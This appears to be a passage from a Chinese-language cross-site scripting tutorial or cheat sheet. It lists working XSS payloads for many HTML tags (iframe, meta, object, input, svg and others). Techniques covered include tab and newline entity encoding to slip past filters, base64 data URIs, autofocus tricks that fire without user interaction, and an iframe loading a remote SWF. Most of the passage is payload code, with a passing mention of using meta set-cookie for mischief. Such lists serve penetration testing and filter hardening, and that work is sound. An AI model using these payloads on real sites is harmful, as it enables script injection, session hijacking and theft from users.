 >iframe这个例子当中值得一提的是，有时候我们可以通过实体编码 &Tab（换行和tab字符）来bypass一些filter。我们还可以通过事先在swf文件中插入我们的xss code,然后通过src属性来调用。不过关于flash值得一提的是，只有在crossdomain.xml文件中，allow-access-from domain=“*"允许从外部调用swf时，我们才可以通过flash来实现xss attack.
```plain
<iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>   把javascript代码每个字符每隔一定的TAB分开
<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe> 
<iframe SRC="http://0x.lv/xss.swf"></iframe> 
<IFRAME SRC="javascript:alert(1);"></IFRAME> 
<iframe/onload=alert(53)></iframe>
```
* meta标签
>很多时候，在做xss测试时，你会发现你的昵称，文章标题跑到meta标签里。那么你只需要跳出当前属性再添加http-equiv="refresh",就可以构造一个有效的xss payload了。当然一些猥琐流的玩法，会通过给http-equiv设置set-cookie来，进一步重新设置cookie来干一些猥琐的事情
```plain
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>? 
<meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">
```
* object标签
>和a标签的href属性玩法是一样的，不过优点是无须交互。
>`<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4=></object>`
* marquee标签
>`<marquee onstart="alert('sometext')"></marquee>`
* isindex标签
>第二个例子，值得我们注意一的是在一些只针对属性做了过滤的webapp当中，action很可能就是漏网之鱼。
```plain
<isindex type=image src=1 onerror=alert(1)> 
<isindex action=javascript:alert(1) type=image>
```
* input标签
>没有什么特别之处，通过event来调用js。和之前的button的例子一样通过 autofocus来达到无须交互即可弹窗的效果。在这里使用到了onblur是希望大家学会举一反三。
```plain
<input onfocus=javascript:alert(1) autofocus> 
<input onblur=javascript:alert(1) autofocus><input autofocus>
```
* select标签
>`<select onfocus=javascript:alert(1) autofocus>`
* textarea标签
>`<textarea onfocus=javascript:alert(1) autofocus>`
* keygen标签
>`<keygen onfocus=javascript:alert(1) autofocus>`
* frameset标签
```plain
<FRAMESET><FRAME SRC="javascript:alert(1);"></FRAMESET> 
<frameset onload=alert(1)>
```
* embed标签
```plain
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4="></embed> //chrome 
<embed src=javascript:alert(1)> //firefox
```
* svg标签
```plain
<svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg> 
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>  //chrome有效
```